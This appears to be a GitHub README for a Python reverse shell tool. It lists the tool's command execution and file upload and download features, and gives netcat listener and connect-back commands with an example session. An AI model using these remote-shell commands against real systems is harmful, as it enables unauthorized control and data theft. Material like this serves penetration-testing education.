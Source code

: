 # Reverse Shell Tool

This repository contains reverse shell tool written in Python. This tool is for educational purposes only and should be used in a controlled, authorized environment.

## Features

- Execute commands on the target machine.
- Change directory on the target machine.
- Upload files from the attacker's machine to the target machine.
- Download files from the target machine to the attacker's machine.

## Prerequisites

- Python installed on both the attacker's and target's machines.
- Network access between the attacker's and target's machines.
- Necessary ports open and not blocked by firewalls.

## Usage
git clone https://github.com/Guruh-dev/Reverse-Shell.git

cd Reverse-Shell

### Set Up the Listener

On the attacker's machine, set up a listener to receive the reverse shell connection. You can use `netcat` (nc) for this purpose.

```sh
python3 reverse_shell.py
python3 reverse_shell.py <target_ip> <target_port>
nc -lvp <target_port>
whoami
user
upload example.txt
download example.txt
cd /tmp
exit

## Example Interaction
1. Attacker's Machine:

Set up the listener:
nc -lvp 4444
2. Target Machine:

Run the script:
python3 reverse_shell.py 192.168.1.100 4444

3. Attacker's Machine:

Send a command:
whoami

Receive the output:
user

